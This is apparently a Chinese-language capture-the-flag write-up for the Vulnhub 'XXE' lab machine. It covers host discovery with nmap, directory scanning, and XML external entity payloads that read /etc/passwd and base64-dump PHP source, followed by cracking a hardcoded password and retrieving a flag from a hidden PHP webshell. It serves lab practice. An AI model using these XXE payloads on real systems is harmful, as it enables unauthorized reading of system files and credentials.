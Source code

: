```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口。

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页。

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，admin.php。

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面。

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- admin.php在/xxe/目录下。ip/xxe/admin.php同样是登录界面。

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显。

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显。

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- base64解密，源码分析，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)

![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php。

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

- 点击链接，跳转至/xxe/flagmeout.php。
- 显示是空白页，查看页面源代码。

![xxe-12](https://cijian00.github.io/img/Vulnhub/XXE/12.png)

- 先进行base32解密，再进行base64解密。
- 可得/etc/.flag.php。

![xxe-13](https://cijian00.github.io/img/Vulnhub/XXE/13.png)

- 查看/etc/.flag.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

- base64解密之后看着像无特征码的PHP Webshell。

![xxe-14](https://cijian00.github.io/img/Vulnhub/XXE/14.png)

- 保存至本地环境，命名为flag.php。前后分别添加上```<?php   ?>```。
- 再访问flag.php可得flag。

![xxe-15](https://cijian00.github.io/img/Vulnhub/XXE/15.png)
